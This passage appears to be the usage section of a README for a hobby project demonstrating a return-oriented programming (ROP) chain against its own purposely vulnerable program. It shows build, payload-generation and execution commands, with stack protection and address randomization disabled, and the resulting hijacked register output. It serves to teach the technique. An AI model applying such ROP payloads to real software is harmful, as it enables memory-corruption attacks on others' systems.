 ## Usage
"I have read through all this and still don't know how to actually execute this." I hear you, so now the three step plan you need to do, to actually execute the attack, complete with expected output.
```sh
$ make                                                              # we build the project
clang -Og -g -Wall -Wextra -Wpedantic -fno-stack-protector -o ropchain main.c asm.S
$ ./ropchain stack                                                  # we generate our message to pass as a stack. You might need to edit this, if it doesn't work on your machine
$ cat stack.bin | setarch --addr-no-randomize ./ropchain greet      # we pipe the generated file into our process, with address space randomization disabled
Please write your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!

rax: 0x0000000042421337, rbx: 0x7d6e77707b707868, rcx: 0x006e69656d74656c
```
This will sadly only work on x86_64 linux, because of technical reasons. Because why would we all agree on one (very sensible and officially recommended by the manufacturer) ABI, huh Microsoft? Can you riddle me this?

## Special thanks
To me. I did all the work alone.
